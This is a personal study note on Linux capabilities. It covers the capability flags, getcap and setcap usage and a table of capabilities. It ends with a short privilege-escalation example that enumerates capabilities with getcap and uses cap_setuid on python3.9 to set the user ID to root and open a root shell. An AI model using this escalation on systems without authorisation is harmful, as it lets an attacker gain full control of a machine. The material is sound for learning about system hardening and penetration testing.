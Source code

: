 ```yaml
---
id: 7c6zve1cyji68a1g4csf9ro
title: 1 Especial Privileges Capabilities
desc: ''
updated: 1705001340783
created: 1704985459456
---
```


## Capabilities

### What is capabilities?

Capabilities are a way to give a process some privileges without giving all the privileges of the root user. For example, you can give a process the ability to bind to a port below 1024 without giving it the ability to read and write to the filesystem.

Put another way, capabilities **allow manage what permissions have a process for acces to kernel parts**, **independently of the user that launch/execute it.**

### Flags

Capabilities has ome flags in order to determinate what actions are avalaible. This is a table with the flags (e,p,i):

| Flag | Description                                                                                                                                                                                        |
| ---- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| e    | Effective: The capabilitites used by the core to carry out checks of permissions for the process                                                                                                   |
| p    | Permitted : The capabilities that it can assume. If a process remove a capability from its set of permitted, it can't never acquire this capabilty again _(unless you run a set-UID-root program)_ |
| i    | Inherited : The capabilities that are retained after the call to _execve(2)_                                                                                                                       |

### How to use capabilities?
To list the capabilities in the system you wan use **getcap**. For example: `getcap -r / 2>/dev/null` or for a file you can use `getcap file`, for example `getcap /usr/bin/wireshark`.

To set capabilitites you can use **setcap**. For example: `setcap cap_net_admin,cap_net_raw+eip /usr/bin/wireshark` or `setcap cap_net_raw+ep /bin/ping`

To remove capabilities you can use **setcap**. For example: `setcap -r /usr/bin/wireshark` or `setcap -r /bin/ping`. And if you want to remove only one capability you can use `setcap cap_net_raw-ep /bin/ping`

### List of capabilities

| Capability           | Description                                                                                                                                                                                                                                                                                                                                            |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| CAP_CHOWN            | Allows arbitrary changes to user and group IDs of files (see chown(2)).                                                                                                                                                                                                                                                                                |
| CAP_DAC_OVERRIDE     | Bypasses permission checks for read, write, and execute operations (DAC = Discretionary Access Control).                                                                                                                                                                                                                                               |
| CAP_DAC_READ_SEARCH  | Bypasses permission checks for read operations on files and read and execute operations on directories.                                                                                                                                                                                                                                                |
| CAP_FOWNER           | Bypasses permission checks for operations that normally require the filesystem process's user ID to match the file's user ID, excluding operations covered by CAP_DAC_OVERRIDE and CAP_DAC_READ_SEARCH. Ignores the sticky bit on file deletion.                                                                                                       |
| CAP_FSETID           | Does not clear set-user-ID and set-group-ID bits when modifying a file; allows setting the set-group-ID bit for a file whose group ID does not match the filesystem or any additional group IDs of the invoking process.                                                                                                                               |
| CAP_IPC_LOCK         | Allows memory locking (mlock(2), mlockall(2), shmctl(2)).                                                                                                                                                                                                                                                                                              |
| CAP_IPC_OWNER        | Bypasses permission checks for operations on System V IPC objects.                                                                                                                                                                                                                                                                                     |
| CAP_KILL             | Bypasses permission checks for sending signals (see kill(2)).                                                                                                                                                                                                                                                                                          |
| CAP_LEASE            | (Linux 2.4 and later) Allows the establishment of leases on arbitrary files (see fcntl(2)).                                                                                                                                                                                                                                                            |
| CAP_LINUX_IMMUTABLE  | Allows setting the EXT2_APPEND_FL and EXT2_IMMUTABLE_FL extended attributes on ext2 filesystem files.                                                                                                                                                                                                                                                  |
| CAP_MKNOD            | (Linux 2.4 and later) Allows the creation of special files using mknod(2).                                                                                                                                                                                                                                                                             |
| CAP_NET_ADMIN        | Allows various network-related operations (e.g., set privileged options on interfaces, enable multicasting, configure interfaces, modify routing tables).                                                                                                                                                                                              |
| CAP_NET_BIND_SERVICE | Allows binding sockets to reserved ports in the Internet domain (port numbers less than 1024).                                                                                                                                                                                                                                                         |
| CAP_NET_BROADCAST    | (Not used) Allows universal broadcasting of packets through a socket and listening for multicast packets.                                                                                                                                                                                                                                              |
| CAP_NET_RAW          | Allows the use of RAW and PACKET socket types.                                                                                                                                                                                                                                                                                                         |
| CAP_SETGID           | Allows arbitrary manipulations of group IDs and the additional group ID list of a process; allows the use of forged group IDs when passing credentials through Unix domain sockets.                                                                                                                                                                    |
| CAP_SETPCAP          | Grants or removes any capability in the invoker's permitted capabilities set to or from any other process.                                                                                                                                                                                                                                             |
| CAP_SETUID           | Allows arbitrary manipulations of user IDs of processes (setuid(2), etc.); allows the use of forged user IDs when passing credentials through Unix domain sockets.                                                                                                                                                                                     |
| CAP_SYS_ADMIN        | Allows various system administration operations, including: quotactl(2), mount(2), swapon(2), sethostname(2), setdomainname(2), IPC_SET, and IPC_RMID operations on arbitrary System V IPC objects; allows the use of forged user IDs when passing credentials through sockets.                                                                        |
| CAP_SYS_BOOT         | Allows calls to reboot(2).                                                                                                                                                                                                                                                                                                                             |
| CAP_SYS_CHROOT       | Allows calls to chroot(2).                                                                                                                                                                                                                                                                                                                             |
| CAP_SYS_MODULE       | Allows loading and unloading of kernel modules.                                                                                                                                                                                                                                                                                                        |
| CAP_SYS_NICE         | Allows increasing the nice value of the invoking process (nice(2), setpriority(2)), changing the nice value of arbitrary processes, setting real-time scheduling policies for the invoking process, and setting scheduling policies and priorities for arbitrary processes (sched_setscheduler(2), sched_setparam(2)).                                 |
| CAP_SYS_PACCT        | Allows calls to acct(2).                                                                                                                                                                                                                                                                                                                               |
| CAP_SYS_PTRACE       | Allows detailed process tracing of arbitrary processes using ptrace(2).                                                                                                                                                                                                                                                                                |
| CAP_SYS_RAWIO        | Allows operations on I/O ports (iopl(2) and ioperm(2)).                                                                                                                                                                                                                                                                                                |
| CAP_SYS_RESOURCE     | Allows the use of reserved space on ext2 filesystems; ioctl(2) calls to control logging on ext3; overriding disk quota limits; increasing resource limits (see setrlimit(2)); overriding the RLIMIT_NPROC resource limit; increasing the msg_qbytes limit for a message queue above the limit in /proc/sys/kernel/msgmnb (see msgop(2) and msgctl(2)). |
| CAP_SYS_TIME         | Allows modification of the system clock (settimeofday(2), adjtimex(2)); allows modification of the hardware real-time clock.                                                                                                                                                                                                                           |
| CAP_SYS_TTY_CONFIG   | Allows calls to vhangup(2).                                                                                                                                                                                                                                                                                                                            |

### Vulnerabilities in capabilities

Imagine that the file `/usr/bin/python3.9` has the capabilitie setuid. This is so because when we wrote `setcap cap_setuid+ep /usr/bin/python3.9` and then `getcap -r / 2>/dev/null`, so can see something like this:

```bash
/usr/bin/python3.9 = cap_setuid=ep
# This means that the file has the capabilitie setuid: whit this it can change the user id
```
 

So we can do this:

```bash
python3.9
>>> #Into the python console
>>> import os
>>> os.setuid(0)
>>> os.system("whoami") # >>> root
>>> os.system("/bin/bash")
```
